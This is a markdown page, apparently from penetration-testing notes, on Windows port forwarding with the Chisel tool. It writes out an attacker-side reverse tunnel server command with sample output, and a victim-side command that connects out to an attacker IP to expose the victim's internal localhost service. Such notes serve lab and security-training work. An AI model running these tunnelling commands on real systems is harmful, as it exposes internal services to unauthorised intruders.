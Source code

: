 # Port Forwarding in Windows

> **NOTE :** For port forwarding in Linux, look at the `SSH` section of `Remote Management Tools` (in the current directory).

## Tool 1 : Chisel

### Remote Port Forwarding

#### **Aim :** To expose a service running on a client system (Victim) to remote clients via the server system's port.  

- Run `systeminfo` to get the details of the Victim machine such as *System Type*, *Processor* etc., and download the appropriate and latest Chisel binary from [Chisel's GitHub repo](https://github.com/jpillora/chisel/releases).

- Ensure the binaries utilized on both the server and client systems are of the same version number.

#### *Command to be run on the Server System (Attacker) :*

```bash
chisel server -p 12312 --reverse

# O/p

# 2024/07/15 20:10:31 server: Reverse tunnelling enabled
# 2024/07/15 20:10:31 server: Fingerprint <SOMETHING>
# 2024/07/15 20:10:31 server: Listening on http[:]//0.0.0.0:12312

# // After the client command is run:

# 2024/07/15 20:16:02 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
# 2024/07/15 20:16:02 server: session#1: tun: proxy#R:9090=>9090: Listening
```

#### *Command to be run on the Client System (Victim) :*

```powershell
./chisel.exe client 10.10.16.89:12312 R:9090:127.0.0.1:9090
```

Now the internal service on the Victim Windows system listening on 127.0.0.1:9090 **can be accessed via the port 9090 of the Server System** (Attacker's machine).

